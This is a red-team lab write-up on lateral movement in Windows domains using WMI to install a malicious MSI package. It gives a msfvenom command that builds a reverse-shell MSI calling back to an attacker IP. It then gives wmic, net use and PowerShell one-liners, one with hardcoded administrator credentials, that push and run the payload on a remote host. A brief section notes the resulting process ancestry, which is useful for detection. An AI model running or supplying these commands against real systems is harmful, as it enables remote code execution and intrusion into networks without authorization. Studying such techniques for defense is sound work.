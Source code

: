 # WMI + MSI Lateral Movement

## Execution

Generating a payload in MSI \(Microsoft Installer Package\):

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f msi > evil64.msi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-19-17-31-00.png)

I tried executing the .msi payload like so, but got a return code `1619` and quick search on google showed  nothing usefull:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
wmic /node:10.0.0.7 /user:offense\administrator product call install PackageLocation='\\10.0.0.2\c$\experiments\evil64.msi'
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-19-18-45-55.png)

So I had to revert to a filthy way of achieving the goal:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
net use \\10.0.0.7\c$ /user:administrator@offense; copy C:\experiments\evil64.msi \\10.0.0.7\c$\PerfLogs\setup.msi ; wmic /node:10.0.0.7 /user:administrator@offense product call install PackageLocation=c:\PerfLogs\setup.msi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/peek-2018-10-19-18-41.gif)

Additionally, the same could of course be achieved using powershell cmdlets:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential (Get-Credential)
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Get a prompt for credentials:

![](../.gitbook/assets/screenshot-from-2018-10-19-19-02-10.png)

and enjoy the code execution:

![](../.gitbook/assets/screenshot-from-2018-10-19-19-02-48.png)

Or if no GUI is available for credentials, a oneliner:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
$username = 'Administrator';$password = '123456';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential $credential
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-19-19-09-42.png)

## Observations

Note the process ancestry: `services > msiexec.exe > .tmp > cmd.exe`:

![](../.gitbook/assets/screenshot-from-2018-10-19-18-46-37.png)

and that the connection is initiated by the .tmp file \(I ran another test, hence another file name\):

![](../.gitbook/assets/screenshot-from-2018-10-19-18-55-53.png)

{% embed url="https://www.cybereason.com/blog/wmi-lateral-movement-win32" %}

{% embed url="https://twitter.com/buffaloverflow/status/1002523407261536256" %}

